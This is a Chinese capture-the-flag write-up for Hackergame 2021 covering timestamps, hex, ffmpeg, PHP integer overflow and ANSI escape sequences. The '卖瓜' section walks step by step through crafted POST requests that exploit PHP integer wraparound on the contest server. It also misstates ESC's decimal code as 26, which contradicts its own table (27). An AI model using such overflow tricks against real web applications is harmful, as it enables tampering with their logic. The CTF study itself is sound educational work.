


## 前言

今年的题感觉比去年要更有难度一些。加上我时间分配不合理、以及想锻炼一下编程技能而做了很多不必要的操作，最后的分数和排名都比去年要差一些。

我这一次发布题解，某种意义上更多是分享一下当时做题的思路以及走过的弯路、自己的心得体会，并向有兴趣了解的读者分享一些拓展知识。

#### 观前提示

因为 python 是我最熟悉的语言，本次的解题代码都使用 python 编写（pythongame.jpg）。本人主要是在 Windows 平台的 python 3.9.6 中编写和运行代码，不过代码应该都可以在 python 3.8 及以上运行，并且应该是跨平台的，但是没有经过测试。

代码全部使用 [PEP 484](https://www.python.org/dev/peps/pep-0484/) 风格的类型提示 (type hints)，并且全都通过了最新版 [mypy](https://github.com/python/mypy) (0.910 以及 0.920+dev.76a7542e790561038b18e65e35054ef4ed671fa6) 的检查。不熟悉类型提示的读者可以简单忽略掉它们，或者可以自行阅读官方文档中 [标准库 typing 的文档](https://docs.python.org/zh-cn/3/library/typing.html) 以及其中提到的相关 PEP，也可以自行搜索教程（例如 [这个](https://sikasjc.github.io/2018/07/14/type-hint-in-python/) 或者 [这个](https://realpython.com/python-type-checking/) ）阅读。

代码中会使用到一个名为 [httpx](https://www.python-httpx.org/) 的 HTTP 请求库。它与 requests 的 API 基本一致，除了 [官方文档明确指出的几点](https://www.python-httpx.org/compatibility/) 之外。除此之外 httpx 还支持 python 的原生协程语法，并且我的代码用到了第三方库 [trio](https://github.com/python-trio/trio) 作为异步事件循环库，以此替代标准库 asyncio。

另外，我全程使用 IPython 作为交互式解释器，但由于 GitHub 不支持对 IPython 进行高亮，所以这里我仍然使用传统 python 提示符来写。但是我确实使用了 IPython 的特殊功能，例如在交互式解释器中的 `await`。

废话就说到这里，下面开始题解吧。

## 第1题：签到

点击 next 按钮后发现地址栏上多了个参数 1，结合日期 1970 年 1 月 1 日，很容易猜测出这是 Unix 纪元 (Unix epoch) 的时间戳，于是用相应工具即可轻易拿到当前的时间戳，比如传统的 Unix 命令行工具 `date`:

``` shell
$ date +"%s"
1635597498
```

或者使用 [ISO C 函数 `time`](https://zh.cppreference.com/w/c/chrono/time)，当然 python 标准库的 `time.time()` 也可以：

```python
>>> import time
>>> time.time()
1635597498.1234567
```

粘贴进地址栏即可。

顺便一提，在 2038 年 1 月 19 日，unix 时间戳溢出 32 位有符号整数，导致时间回到 1901 年，这个被称为 [2038 年问题](https://en.wikipedia.org/wiki/Year_2038_problem)。虽然目前主流的操作系统都已经使用 64 位时间戳来解决这个问题，但是可以预计仍然有一些旧软件和旧设备会受到影响。(记得 2038 年那天上街要小心啊 ;-)

## 第2题：进制十六——参上

本题同样是个较为简单的十六进制问题。官方题解已经很详细了，不论是用图形化的十六进制编辑器、还是用命令行的如 `xxd` 这样的工具，还是像 python 中 `bytes.fromhex` 这样的函数，都可以解决问题（我当时是用 `fromhex` 搞定的）。

另外本题的简介也是玩梗飞起：

> 只是，这位 X 同学，虽然不会退出 Vim，但是似乎对打开十六进制编辑器颇有造诣……

“不会退出 Vim ”是一个梗，它可能是来自于 [这篇文章](https://stackoverflow.blog/2017/05/23/stack-overflow-helping-one-million-developers-exit-vim/) 。而在这里很有意思的是，其实 `xxd` 命令并不像常见的 `cd`, `ls`, 乃至 `od` 命令那样，是 [posix 规范](https://pubs.opengroup.org/onlinepubs/9699919799/functions/) 中规定、并在 [GNU coreutils](https://www.gnu.org/software/coreutils/) 中实现的，而是 vim 项目自带的一个命令，这意味着你在某些发行版（例如 archlinux）上可能搜不到一个名为 `xxd` 的软件包，而是需要安装 `vim`。

在 vim 中，退出文件是在命令行模式中用 `q` 来退出：

```
:q
```

而在 vim 中把文件用 xxd 转换为十六进制形式同样也是在命令行模式下进行：

```
:%!xxd
```

于是玩这个梗在这里就非常有趣了2333333

顺便一提，在 vim 中可以用 `:%!some_command` 的形式来用命令行工具处理正在编辑的文件内容（严格来说，是缓冲区），文件内容会作为标准输入传递给命令，并在命令执行完成后把文件内容替换为命令的标准输出和标准错误。例如下面这样就可以把十六进制形式的文件转换为原始形式：

```
:%!xxd -r
```

## 第3题：去吧！追寻自由的电波

这一题我的解法和官方题解里的预期解完全一致2333333

音频编辑这种操作，自然是需要专业的软件来做。而自由软件 ffmpeg 则是这个问题的不二之选。刚开始开始在搜索引擎搜索以及阅读 [ffmpeg 音频过滤器的文档](https://ffmpeg.org/ffmpeg-filters.html) 时，我先尝试了 `atempo` 这个过滤器：

```shell
$ ffmpeg -i radio.mp3 -filter:a "atempo=0.5" radio-out.mp3
```

但是发现它只会放慢速度而不会降低音调。接着又是一番搜索，我找到了用来设置采样率的 `asetrate`，并设为 48000 的一半 24000。这样已经可以听清楚了，但是音频听起来还是不太自然，于是我又降低到了 1/3：

```shell
$ ffmpeg -i radio.mp3 -filter:a "atempo=0.6,asetrate=16000" radio-out.mp3
```

接着用 mpv 播放，这样就没问题了。

## 第4题：猫咪问答 Pro Max

这一题没太多可说的。就是第一问，当时我是在 web archive 找到的，当时有些担心会不会对难以改善网络环境的同学不太友好。

的确，看上去互联网的诞生让信息更不容易丢失了，但实际上互联网上的信息反而更加不易保存。所以，如果有条件的话，今后再遇到自己感兴趣的网页，想收藏下网址时，记得往 web archive 的 wayback machine 存一份，免得将来寻找时才发现收藏夹里一大片“已失效链接”。

## 第5题：卖瓜

这一题我第一天没做出来。在前端没发现什么特别之处后，先开浏览器开发者工具，拿到向服务器请求时使用的 api，便于下一步测试。

发现这是一个 post 请求，请求体中包含 3 个字段，分别是 `b6`, `b9` 表示 6 斤和 9 斤的瓜的个数，还有一个 `submit` 字段，值总是 `操作！`。

于是很自然地想到，我试试 `b2` 字段能不能行。当然，首先需要登录拿到 cookies。

```python
>>> import httpx
>>> client = httpx.AsyncClient()
>>> await client.get(f"http://202.38.93.111:15003/?token={token}")
<Response [200 OK]>
```

接着就发一个请求试试 `b2` 行不行：

```python
>>> await client.post("http://202.38.93.111:15003/", data={"b2": 1, "b9": 0, "submit": "操作！"})
<Response [200 OK]>
>>> _.text  # 在 python 交互式解释器中，下划线这个变量名引用的是
            # 上一条命令返回的对象。下面省略了不重要的输出信息
'... <p>电子秤上已有 0/20 斤的瓜。</p>\n ...'
```

看上去并没有成功。随后又试了几个，同样不行。那么再试试负数？

```python
>>> await client.post("http://202.38.93.111:15003/", data={"b6": -1, "b9": 0, "submit": "操作！"})
<Response [200 OK]>
>>> _.text
'操作无效：不能放负数个瓜。点击<a href="/">这里</a>回到主页。'
```

看来并不行。

经过一番折腾后，感觉在 api 上应该是没空子可钻了，于是打算试试溢出。此前，先定义一个函数免得需要光标在行中间跳来跳去：

```python
>>> async def melon(b6: int = 0, b9: int = 0):
...     return await client.post(
...         "http://202.38.93.111:15003/",
...         data={"b6": b6, "b9": b9, "submit": "操作！"},
...     )
...
```

```python
>>> await melon(2**63//6)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 9223372036854775806/20 斤的瓜。</p>\n ...'
```

很好，加上去了。再来一次：

```python
>>> await melon(2**63//6)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 1.844674407371E+19/20 斤的瓜。</p>\n ...'
```

怎么变成浮点数了？清空，再来一次，这次数字再大一点：

```python
>>> await client.get("http://202.38.93.111:15003/?clear=y")
<Response [200 OK]>
>>> _.text
'已经清空账号，请点击<a href="/">这里</a>重新开始。'
```

```python
>>> await melon(2**64//6)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 0/20 斤的瓜。</p>\n ...'
```

嗯？怎么没反应了？再试试：

```python
>>> await melon(2**63//6 + 1)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 -9223372036854775808/20 斤的瓜。</p>\n ...'
```

好，出来负数了，再来一次：

```python
>>> await melon(2**63//6 + 1)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 -1.844674407371E+19/20 斤的瓜。</p>\n ...'
```

嗯？怎么又成了浮点数了？

我猜有些没做出来这题的小伙伴和我的经历应该很相似吧2333333。经过几番尝试后，还是没摸索出来。说明这题确实存在溢出，但那时我还是不能确定是否这就是解题方向，于是我打算放到明天再继续做。

到了第二天，在我做出了“图之上的信息”后，又回来看这题，这时发现这题多了一条公告：

> 补充说明：当称的数字变为浮点数而不是整数时，HQ 不会认可最终的称重结果。

看来昨天的解法确实不对啊。但是我决定整理整理思路，再试试溢出。

我发现，之前的解法都只是尝试大数，而没有把大小数结合起来用，于是今天我打算试试这么做。此前，先把函数改一下，免得每次输出一大堆信息：

```python
>>> import re
>>> async def melon(b6: int = 0, b9: int = 0):
...     r = await client.post(
...         "http://202.38.93.111:15003/",
...         data={"b6": b6, "b9": b9, "submit": "操作！"},
...     )
...     if match := re.search(r"电子秤上已有\s\-?(\d+)/(\d+)\s斤的瓜。", r.text):
...         return match
...     else:
...         print("失败！")
...         return r
...
```

```python
>>> await melon(2**63//6)
<re.Match object; span=(1193, 1227), match='电子秤上已有 9223372036854775806/20 斤的瓜。'>

>>> await melon(1)
失败！
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 9.2233720368548E+18/20 斤的瓜。</p>\n ...'
```

又变成浮点数了。清空后再试：

```python
>>> await melon(2**63//6 + 1)
<re.Match object; span=(1193, 1228), match='电子秤上已有 -9223372036854775808/20 斤的瓜。'>

>>> await melon(2**63//6)
<re.Match object; span=(1193, 1210), match='电子秤上已有 -2/20 斤的瓜。'>
```

好！终于得到了一个绝对值很小的负整数。

```python
>>> await melon(1)
<re.Match object; span=(1193, 1209), match='电子秤上已有 4/20 斤的瓜。'>
```

OHHHHHHH!! 小正整数，它出现了！

```python
>>> await melon(2**63//6 + 1)
<re.Match object; span=(1193, 1228), match='电子秤上已有 -9223372036854775804/20 斤的瓜。'>

>>> await melon(2**63//6)
<re.Match object; span=(1193, 1209), match='电子秤上已有 2/20 斤的瓜。'>

>>> await melon(3)
<re.Match object; span=(1397, 1414), match='电子秤上已有 20/20 斤的瓜。'>

>>> await client.get("http://202.38.93.111:15003")
<Response [200 OK]>
>>> _.text
'... 恭喜你逃过一劫！The flag is: <code>flag{HUAQIANG!HUAQIANG!_92757cd024}</code>\n  ...'
```

成功了！

后面我又研究了研究，大概摸到了它的规律：在每次请求中，数字是可以在溢出时发生 [环绕 (wrapping](https://en.wikipedia.org/wiki/Integer_overflow)，即溢出超过最大值以后，反而变成最小值的现象) 的，但是斤数不能太接近 2^64 或者超过 2^64。而且，如果提交的斤数与秤上的数字相加后的数字发生溢出，则不会环绕，一旦二者之和的绝对值超过了 2^63，就会变成浮点数。

```python
>>> await melon(2**64//6)
<re.Match object; span=(1193, 1209), match='电子秤上已有 0/20 斤的瓜。'>

>>> await melon(2**64//6 - 2**11//6)
<re.Match object; span=(1193, 1209), match='电子秤上已有 0/20 斤的瓜。'>

>>> await melon(2**64//6 - 2**12//6)
<re.Match object; span=(1193, 1213), match='电子秤上已有 -4096/20 斤的瓜。'>

>>> await melon(2**63//6 + 1)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 -9.2233720368548E+18/20 斤的瓜。</p>\n ...'
```

问题现在是解决了。但是，这么奇怪的现象，究竟是为什么呢？如果真的是出题人有意为之，这个溢出的逻辑也太怪了。思考了一会儿，我突然想起，昨天扒 api 时看到一眼，HTTP 响应头里写着那个经常被开玩笑说是“最好的语言”的 `php` 的字样。

> 具体来说，是下面这样：

```
X-Powered-By: PHP/8.0.10
```

这会不会是 php 里的溢出逻辑呢？我马上搜索 `php int`，很快就找到了线索：[php 中文文档 - 整数溢出](https://www.php.net/manual/zh/language.types.integer.php#language.types.integer.overflow)。果然，在 php 中，整数溢出以后，会直接变为浮点数。那么在请求里溢出时的环绕又是怎么回事呢？会是从字符串向整数转换时出现的问题吗？

于是我又找到了 php 中 [`intval` 函数的文档](https://www.php.net/manual/zh/function.intval.php#refsect1-function.intval-returnvalues)。不过很可惜，看上去问题并不是出在这里，当字符串表示的值大得超过整数所能表示的范围（也就是“上溢”）时，`intval` 会把它转化成最大整数。

```php
echo intval(42000000);                // 42000000
echo intval(420000000000000000000);   // 0
echo intval('420000000000000000000'); // 2147483647
```

不过，这似乎回答了为什么提交的数字过大的时候会“没有效果”。

正当一筹莫展时，我突然在文档下发现了 [这样一条评论](https://www.php.net/manual/zh/language.types.integer.php#125251)（甚至作者似乎用的是 QQ 邮箱），其中提到：

```php
var_dump(0x7fffffffffffffff + 1);          // float(9.2233720368548E+18)
var_dump((int)(0x7fffffffffffffff + 1));   // int(-9223372036854775808)   <-----
```

也就是说，当浮点数转换为整数时，有可能在溢出时发生环绕！我又找了一个 [php 在线编译器](https://www.w3schools.com/php/php_compiler.asp) 验证我的想法：

```php
// `2**63 // 6 == 1537228672809129302`
var_dump(1537228672809129302 * 6);          // float(9.2233720368548E+18)
var_dump(intval(1537228672809129302 * 6));  // int(-9223372036854775808)
// `2**64 // 6 == 3074457345618258602`
var_dump(3074457345618258602 * 6);          // float(1.844674407371E+19)
var_dump(intval(3074457345618258602 * 6));  // int(0)
```

果然如此。于是到此为止，这个问题的真相就水落石出了。在赛后，我们可以看到 [此题的源码](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E5%8D%96%E7%93%9C/src/app/index.php#L60-L70) ，与我们的分析一致：

```php
function action()
{
    check_last_action();
    $bottle_6 = intval($_POST['b6']);
    $bottle_9 = intval($_POST['b9']);
    if ($bottle_6 < 0 || $bottle_9 < 0) {
        die('操作无效：不能放负数个瓜。点击<a href="/">这里</a>回到主页。');
    }
    $_SESSION['pool'] += intval($bottle_6 * 6 + $bottle_9 * 9);
    header('Location: /');
}
```

## 第6题：透明的文件

主要考验知识面的一题。因为官方题解已经介绍了许多知识了，所以我在这里拓展一些别的知识。

打开文件，我们可以看到类似这样的东西：

```shell
$ head -c 233 transparent.txt  # 查看文件开头的 233 个字符
[0;0H[20;58H[8;34H[13;27H[4;2H[38;2;1;204;177m [39m[14;10H[20;51H[23;4H[12;2H[38;2;2;207;173m [39m[19;61H[9;12H[22;8H[20;2H[38;2;3;210;169m [39m[3;23H[8;68H[19;10H[4;3H[38;2;4;214;165m [39m[19;23H[17;34H[11;52H[22;70H[12;3H[38;2;5;21
```

不认识它们的小伙伴可能一头雾水，不过熟悉命令行的用户一定能一眼认出来：这就是终端的 [ANSI 转义序列 (ANSI escape sequences / ANSI escape codes)](https://zh.wikipedia.org/wiki/ANSI%E8%BD%AC%E4%B9%89%E5%BA%8F%E5%88%97)，我以前折腾终端模拟器和 shell 时没少接触过这玩意。（关于终端模拟器和 shell 的关系，详见知乎上的 [这篇文章](https://zhuanlan.zhihu.com/p/61369678) 。）只不过，这里缺少了一点最关键的东西：序列开头的 ESC 字符，也就是键盘上最左上角的那个键。没错，ESC 键它也是一个字符。“ESC”其实就是 escape 的简写。

#### ESC 字符

了解过 ASCII 字符集的同学可能知道，在 ASCII 中除了常见的大小写英文字母、阿拉伯数字、一些简单的符号这些 [可打印字符](https://zh.cppreference.com/w/c/string/byte/isprint) 之外，还有一些不可打印的字符，它们被称为 [“控制字符 (control character)”](https://zh.wikipedia.org/wiki/%E6%8E%A7%E5%88%B6%E5%AD%97%E7%AC%A6)。通常我们不怎么用得到它们，所以也不会太关心。不过，在这里的 ESC 字符，就是这些 ASCII 控制字符中的一员。

作为 ASCII 的一员，它自然也有自己的编号，ESC 字符的编号就是 `26`（用十进制表示），用八进制表示则是 `\033`，十六进制则是 `\x1b`。许多编程语言的语法都支持在字符串或者字节串中，用字符的八进制或是十六进制的转义形式来代表这个字符。

例如 [C 语言](https://zh.cppreference.com/w/c/language/escape)（注意：编程语言里的“转义序列”与此处讨论的“ANSI 转义序列”不是同一个东西，前者通常称为“转义字符”。具体的辨析详见 [这个知乎问题](https://www.zhihu.com/question/476547117) ，不过也不必搞那么清楚，只需要分清“编程语言里的转义字符”和“ANSI 转义序列”就可以了。）：

```C
// 这两种表达方式是一样的。
// 都是表示 4 个字符，ESC 字符、左方括号、数字0、小写字母m
printf("\033[0m");
printf("\x1b[0m");
```

与 C 关系密切的 [Python](https://docs.python.org/zh-cn/3/reference/lexical_analysis.html#string-and-bytes-literals) 自然也可以：

```python
>>> list("\033[0m")
['\x1b', '[', '0', 'm']
>>> list("\x1b[0m")
['\x1b', '[', '0', 'm']
```

源自古老的 Unix 系统、并被如今的 [posix 规范](https://en.wikipedia.org/wiki/POSIX) 所标准化的 [printf 命令](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/printf.html) 自然也可以。不过 posix 只规定了它必须支持八进制形式，而没有要求十六进制的形式：

```shell
printf "\033[0m"  # 这个没问题
printf "\x1b[0m"  # 这个不一定能行，比如 dash 内置的 printf 就不支持
```

不过，现在的 bash、zsh 内置的 printf 命令都支持后面的十六进制的形式。此外，bash、zsh 内置的 echo 命令都支持另外一种类似于像 `\n`, `\t` 这样的形式，用 `\e` 来表示 ESC 字符：

```bash
$ echo -e "\e[0m"
```

除了上面这些在编程中的表示法之外，作为控制字符，ESC 字符还可以用一套控制字符通用的方式来表示，即 [脱字符表示法 (Caret notation)](https://en.wikipedia.org/wiki/Caret_notation)。

与 ESC 键类似，键盘上的 CTRL 键其实就是“control”键的意思，用 CTRL 键就可以来输入控制字符。在“控制字符”的中文 wikipedia 词条里有 [一张表](https://zh.wikipedia.org/wiki/%E6%8E%A7%E5%88%B6%E5%AD%97%E7%AC%A6#%E8%A1%A8)，而在英文版的 ASCII 词条中有 [这张表更完整的版本](https://en.wikipedia.org/wiki/ASCII#Control_code_chart)。这里摘录几个常见的控制字符如下：

| Seq| 十进制 | 八进制 | 十六进制 | 缩写 | 字符名 | 备注 |
|:--:|:------:|:------:|:--------:|:----:|:-------|:-----|
| ^@ |   00   |\0或\000|   \x00   |  NUL | Null（空字符）| 就是 C 语言字符串结尾的那个空字符|
| ^D |   04   |\4或\004|   \x04   |  EOT | End of Transmission（传输结束）| 在交互式 shell 中用它来刷洗缓冲。更广为人知的是它可以用来发出 EOF（文件结束标志），可以方便地退出 shell|
| ^I |   09   |  \011  |   \x09   |  HT  | Horizontal Tab（水平制表符）| 就是 "\t" |
| ^M |   13   |  \015  |   \x0d   |  CR  | Carriage Return（回车）| 就是 "\r" |
| ^[ |   27   |  \033  |   \x1b   |  ESC | Escape（转义）| 这一次的主角 |

这种表示法很有趣的一点是，可以按照这种表示法在键盘上敲出这些控制字符。例如，想要输入 EOT 符号，就可以在键盘上按 `CTRL + D` 来输入，就像平常用的键盘快捷键一样。比如在交互式的 shell 中，就可以用这个快捷键来退出 shell 进程。而像 NUL 字符这样，右边是一个 `@` 符号的，就需要按下 `CTRL + SHIFT + 2` 来输入，因为键盘上输入 `@` 符号就是用 `SHIFT + 2`。同样，按下 `CTRL + [` 就可以达到与按下 ESC 键一样的效果，有兴趣的同学可以自己在 vi 或者 vim 中尝试一下。实际上，在命令行下的各种使用 CTRL 的快捷键，都是通过这样的控制字符来传递给应用程序的。

另一方面，在 shell 中如果先按下 `CTRL + V`，会发现没什么效果，但是现在再输入一个控制字符，shell 里就会显示出这个控制字符的脱字符表示法。例如，按下回车键会显示出 `^M`、按下 ESC 键会显示出 `^[`、按下退格键 (BackSpace) 会显示出 `^?`，等等。

[](https://asciinema.org/a/445841)

上面说这么多，主要是说说 ESC 字符的各种表示方法，`\033`, `\x1b`, `\e`, `^[` 都是指 ESC 字符，这样再见到这些奇奇怪怪的表示法时就不会困惑了。

#### 转义序列

键盘上的键有很多。除了刚才提到的，还可以再试试按下 `CTRL + V` 后，按些别的键会发生什么。比如，试试键盘方向键。在终端模拟器中按顺序按下“上、下、左、右”，我们看到了下面这样神奇的结果：

[](https://asciinema.org/a/445859)

或者可能看到这样的结果：

[](https://asciinema.org/a/445851)

我们看到，每次输入的不再是一个字符，而是由好几个字符组成的字符“序列”。这些，便是“ANSI 转义序列”。它们通常以一个 ESC 字符紧接着一个左方括号开始（即 `\033[`），并在最后以一个字母结束。

它大概是这样工作的：我们使用的终端模拟器本身是一个 GUI 应用程序，当我们按下键盘时，它会从窗口系统中收到一个键盘事件，这样终端模拟器就知道了我们按下了什么按键。然后，它把按键根据一套规则翻译成 ANSI 转义序列，因为转义序列其实就是一串文本，所以它可以轻易地通过标准输入 (stdin) 传递给在终端里运行的命令行程序，命令行程序负责解释这些转义序列，并产生相应的动作，比如移动光标、或者显示出上一条执行的命令。

上面说的是外界的输入，那么输出呢？是的，命令行程序确实可以向标准输出 (stdio) 文件输出转义序列，然后由终端模拟器解析、并执行相应的动作。在没有转义序列参与的情况下，终端模拟器就负责把命令行程序输出的文本一行一行显示在终端模拟器的图形窗口里，以供用户阅读。而作为输出的转义序列，则可以给这些显示的文本“加特效”，比如颜色。

```shell
printf "\033[32m%s\033[0m\n" hello
```



上面这行命令就会以绿色输出 `hello`。可以看到，命令的第一个参数，在 `%s` 的两侧有两段较为相似的转义序列，它们都以 `\033[` 开始并以字母 `m` 结束。第一段序列中间是数字 `32`，于是这段序列就表示“把后面输出的文字都以绿色显示”，而后面带有数字 `0` 的序列则表示重置所有样式，这意味着在它之后输出的文字都以默认颜色显示。这里只是一个演示，本文不打算详细介绍如何用 ANSI 转义序列控制输出的样式，更多是作为一个引子。

早期的终端只支持 8 色、16 色，到后来 256 色成为了主流，而到了今天（2021年），支持 24bit 的 RGB 真彩色 (truecolor) 的终端模拟器已经遍地都是了，反倒是不支持真彩色的终端模拟器显得过于另类。在我曾经折腾终端模拟器时，搜索各个常见的终端模拟器对真彩色的支持情况，就搜到了 [这样一个网页](https://gist.github.com/XVilka/8346728)（[这里是它的 GitHub 仓库地址](https://github.com/termstandard/colors)），它位于 Google 搜索 `truecolor terminal` 时的第一个位置，介绍了如何检验你正在使用的终端是否支持真彩色，还收集了大量终端模拟器对真彩色的支持情况。可以说是关于真彩色终端最详细的资料了。而其中自然也介绍了真彩色对应的转义序列：

```shell
printf "\x033[${bg};2;${red};${green};${blue}m\n"
```

我们看到了熟悉的 `\033[` 开头，结尾仍然是一个 `m`，中间则是几个用分号隔开的十进制数字。其中，`bg` 表示要设置的颜色是背景色还是文字自身的颜色（前景色），其中 `38` 表示前景色、`48` 表示背景色。

#### 回头看题目

以防忘记本题给出的文件内容，我把前面的输出再在这里放一次：

```shell
$ head -c 233 transparent.txt  # 查看文件开头的 233 个字符
[0;0H[20;58H[8;34H[13;27H[4;2H[38;2;1;204;177m [39m[14;10H[20;51H[23;4H[12;2H[38;2;2;207;173m [39m[19;61H[9;12H[22;8H[20;2H[38;2;3;210;169m [39m[3;23H[8;68H[19;10H[4;3H[38;2;4;214;165m [39m[19;23H[17;34H[11;52H[22;70H[12;3H[38;2;5;21
```

现在回头看题目给出的文件里的内容，发现其中穿插着许多空格，而按照空格分开的话，每个部分的转义序列的最后一段都是一段真彩色序列。这里就能猜到，它是想输出些什么彩色的东西，大概就是 flag 吧。

除了末尾的真彩色，每部分开头还总有一段 `\033[39m`，可以猜测它与设置输出的样式有关；而夹在中间的则是几个如 `\033[${num1};${num2}H` 的序列。虽然做题时我并不清楚它们的含义，但搜索起来就很容易了。很快，我又搜到了 [一个 gist 页面](https://gist.github.com/fnky/458719343aabd01cfb17a3a4f7296797)，考虑到有的读者可能难以访问 GitHub gist，我把它 [复制了一份](gist/ANSI.md) 传在这个 GitHub 仓库里（不过显然做不到跟进更新）。

从这份速查文档中可以得知，`\033[39m` 是用于把前景色重置为默认颜色，而 `\033[{line};{column}H` 则是把光标移动到第 `line` 行第 `column` 列。

据此，我写出一个脚本，每输出一段转义序列后输出一个字母 `X`，看看会是什么效果：

```python
import os
import re
import time
from pathlib import Path

# 因为提前并不知道需不需要对转义序列进行修改
# 所以在写正则表达式时顺便把关键的几个数字解析出来
CURSOR_GOTO_PATTERN = re.compile(r"^(\d+);(\d+)H$")
# `?P<name>` 是 python 正则表达式库的语法，用来给一个模式命名，以便引用。
# 阅读时可以简单忽略它们的存在
TRUE_COLOR_PATTERN = re.compile(
    r"^"
    r"(?P<fg_or_bg>38|48);2;"
    r"(?P<r>\d+);(?P<g>\d+);(?P<b>\d+)m"
    r"$"
)
FILENAME = "transparent.txt"
FILEPATH = (fr"D:/Downloads/{FILENAME}" if os.name == "nt" else
            Path.home()/f"Downloads/{FILENAME}")

def parse_escape_code(code: str):
    if code in {"0m", "39m"}:
        return True
    if CURSOR_GOTO_PATTERN.match(code):
        return True
    if TRUE_COLOR_PATTERN.match(code):
        return True
    return False

def main():
    with open(FILEPATH, encoding="utf-8") as f:
        txt = f.read()
    for line in txt.split():
        for code in line.split("["):
            if parse_escape_code(code):
                # 终端作为标准输出时默认是行缓冲的，我们需要手动刷洗缓冲
                print(f"\033[{code}", end="X", flush=True)
        # 每遇到一个空格就暂停 50ms，以免太快而看不清过程
        time.sleep(0.05)

if __name__ == "__main__":
    main()
```

尝试运行了一下，发现彩色的文本组成了一些字母，但是很快被白色的文本覆盖了。而且在运行结束以后，光标会回到终端左上角，然后 shell 提示符会重绘、覆盖掉我们刚才输出的内容。所以对 `main` 函数做出了如下修改：

```diff
     for line in txt.split():
         for code in line.split("["):
             if parse_escape_code(code):
-                print(f"\033[{code}", end="X", flush=True)
+                print(f"\033[{code}", end="", flush=True)
+        print("X", end="", flush=True)
         time.sleep(0.05)
+    # 等待10秒，不重绘提示符
+    time.sleep(10)
```

这样，便轻易得到了 flag。原来没我一开始想象的那么复杂啊。我把输出的结果用 asciinema 录制了下来并上传，下面就一起下欣赏一下这个过程吧：

[](https://asciinema.org/a/445647)

flag 的前面应该是随机的字符，而后面则是两个命令的名字：`cowsay` 和 `figlet`。

#### 有趣的终端应用程序

`cowsay` 和 `figlet` 在官方题解中都已介绍过，这里就不再赘述了。回想起我刚接触命令行，那还是 2019 年，当时就是想找一个能在安卓手机上运行 python 的软件，一路找到了 termux，以及这个 [国光的 termux 教程](https://www.sqlsec.com/2018/05/termux.html)，而其中的“无聊专区”里的 `cmatrix` 和 `nyancat` 两个命令给我留下了非常深刻的印象。

另外我还要提及一个 [`toilet`](https://github.com/cacalabs/toilet) 命令，它与 `figlet` 类似，都是以字符画的形式输出更大的字母，但二者风格有所不同。

此外，使用过 GNU/Linux 服务器的同学可能还通过 `tmux` 或者 `screen` 这样的终端复用器，实际上它们在终端中扮演的角色既是一个终端模拟器、又是一个终端里的应用程序。运行在终端复用器中的应用程序把转义序列输出给复用器，由复用器解析并处理，这一步中复用器扮演了终端模拟器的角色；而下一步它们要呈现具体的效果时，没办法直接显示在屏幕上，因为它们也是个运行在终端中的应用程序，所以它们也需要输出一些转义序列，交给外部的终端模拟器来呈现画面。输入也是同理，复用器接受到外部终端模拟器输入的转义序列后，经过处理再输入给内部的应用程序。所以，这样的复用器可能会影响应用程序呈现出的效果，也可能暴露出一些应用程序存在的兼容性问题。

除此之外，还有一个非常有趣的应用程序，就是上面引用过好几次的，终端录屏器 `asciinema`，它可以录制终端中作为输出的转义序列，以一种基于 json 的文件格式保存，并在终端或是网页中重放。相比录制真正的视频，它的操作要简单许多，而且存储录制结果的文件也要比真实的视频要小很多，此外还可以在没有图形界面的环境中重放。它所作的工作实际上也类似于一个终端模拟器。作为一个实用工具，在遇到实际问题需要向人求助时，`asciinema` 是一个不错的选择。

#### 关于 ANSI 转义序列的坑

在类 unix 的世界有许许多多的终端应用程序和终端模拟器，它们都在做着解析和生成 ANSI 转义序列的工作。

然而，由于历史原因，如今的终端转义序列缺乏一个受到广泛支持的标准，并且缺乏一份全面而详细的文档。尽管有上古的终端机 VT100、以及 X 窗口系统的著名终端模拟器 xterm 这样近乎于事实标准的存在，然而 VT100 在如今看来功能过于简单，而 xterm 则显得庞大而臃肿、并且有大量几乎用不到的拓展。历史上一些对其进行标准化的尝试，据我所知也没有对现状取得决定性的影响。

另一方面，有一些终端模拟器受限于种种原因没法实现过多的功能，比如 [Linux 控制台](https://en.wikipedia.org/wiki/Linux_console)（也就是启动系统之后看到的那个 tty 界面），这让一些运行在终端里的应用程序不得不考虑去适配它们。直到今天，终端模拟器和终端应用程序的开发者仍然面临着不得不根据自己的理解，去取舍要不要实现某些转义序列的困境。

而由于众多终端模拟器各自按自己的理解实现了转义序列，运行在终端里的应用程序想要适配它们就成了一件难事。于是，就有人开发了一个用于记录各个终端模拟器实现了哪些转义序列的程序：`terminfo`。现如今，它是 `ncurses` 的一部分，通常在系统里的 `/usr/share/terminfo` 里能找到（看看这里涵盖了多少终端模拟器）。`ncurses` 自 `curses` 发展而来，是一个用于构建终端应用程序的库，许多著名的终端应用程序都是基于它的，比如撑起终端文本编辑器半边天的 `vim`、`htop`、`less`、等等，甚至还有那个影响了后世众多游戏设计的上古游戏 `Rogue`，也就是常说的“肉鸽”。

